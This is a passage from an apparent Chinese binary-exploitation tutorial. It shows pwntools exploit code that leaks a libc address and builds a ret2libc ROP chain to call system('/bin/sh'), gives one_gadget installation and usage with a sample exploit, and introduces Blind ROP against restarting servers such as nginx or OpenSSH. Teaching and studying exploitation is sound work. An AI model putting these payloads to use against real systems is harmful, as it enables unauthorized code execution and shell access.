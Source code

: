 开启了地址随机化，我们得到的地址都并不是真实地址，而是一个相对偏移：

做法其实跟之前一样，不同的仅仅是需要在前面加上libc_base 也就是先算出libc中的基址

```python
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io.recvuntil("Maybe it's simple,O.o\n")
system = int(io.recvline(),16)
print hex(system)
libc_base = system - libc.sym['system']
bin_sh = libc_base + next(libc.search('/bin/sh'))
pop_rdi = libc_base + 0x2164f  # 0x000000000002164f : pop rdi ; ret 
ret = libc_base + 0x8aa        # 0x00000000000008aa : ret
payload = cyclic(136) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)

```



#### one_gadget:

one_gadget是libc中存在的一些执行execve("/bin/sh", NULL, NULL)的片段

```shell
#安装
sudo apt -y install ruby
sudo gem install one_gadget

#使用
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

```python
#exp案例
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#获得libc
one_gadget = 0x10a2fc
printf_libc = libc.symbols['printf']
io.recvuntil('this:')
printf = int(io.recv(14),16)
libc_base = printf-printf_libc
#libc+one_gadget调用execve(bin/sh;null;null)
io.sendline(str(one_gadget+libc_base))

```

#### 盲打（BROP）

BROP全称为"BlindROP"，一般在我们无法获得二进制文件的情况下利用 ROP进行远程攻击某个应用程
序，劫持该应用程序的控制流，我们可以不需要知道该应用程序的源代码或者任何二进制代码，该应用
程序可以被现有的一些保护机制，诸如NX, ASLR, PIE, 以及stack canaries等保护，应用程序所在的服务
器可以是32位系统或者64位系统，BROP这一概念在2014年由Standford的Andrea Bittau发表在
Oakland 2014的论文Hacking Blind中提出。

要利用BROP，有两个先决条件：

1. 程序必须存在一个已知漏洞（一般是栈溢出漏洞或者格式化字符串漏洞），并且攻击者知道如何触
	发该漏洞；
2. 应用程序在crash之后可以重新启动，并且重新启动的进程不会被re-rand(虽然有ASLR的保护，但
	是复活的进程和之前的进程的地址随机化是一样的)，这个需求其实在现实中是存在且合理的，诸如
	像如今的nginx, MySQL, Apache, OpenSSH, Samba等应用均符合此类特性。
